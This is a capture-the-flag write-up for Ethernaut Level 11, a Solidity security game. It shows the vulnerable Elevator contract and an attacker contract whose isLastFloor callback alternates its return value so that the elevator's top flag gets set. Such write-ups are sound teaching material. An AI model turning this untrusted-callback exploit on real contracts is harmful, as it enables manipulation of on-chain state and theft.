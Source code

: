 # Level 11: Building

This is the level 11 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- Solidity [interfaces](https://docs.soliditylang.org/en/v0.8.10/contracts.html#interfaces)

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

`player` has to set `top` to `true` i.e. have to reach top of the building.

But `Elevator` won't let you.... if you comply by the `Building` so religiously. So let's not get so disciplined ;)

Alright so, `goTo` calls the contract at `msg.sender` address that implements `Building` interface to determined if `_floor` is last floor.

Okay, then we'll create a contract `MyBuilding` that inherits `Building` and therefore implements `isLastFloor`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}

interface IElevator {
    function goTo(uint _floor) external;
}

contract MyBuilding is Building {
    bool public last = true;

    function isLastFloor(uint _n) override external returns (bool) {
        last = !last;
        return last;
    }

    function goToTop(address _elevatorAddr) public {
        IElevator(_elevatorAddr).goTo(1);
    }
}
```

But...although we did implement `isLastFloor` we won't use `_floor` param anywhere to determine if it's last floor. We are not obliged to anyway ;)

We just alternate between returning `true` and `false`, so that 1st call will return `false` and 2nd call returns `true` and so on.

Simply call `goToTop` of `MyBuilding`, with `contract.address` of instance. That'll trigger `Elevator` to call `isLastFloor` of our contract - `MyBuilding`. And since second call sets `top` variable, it is set to `true`.

Verify in console:
```javascript
await contract.top()

// Output: true
```

Started from the bottom now we here (`top`) !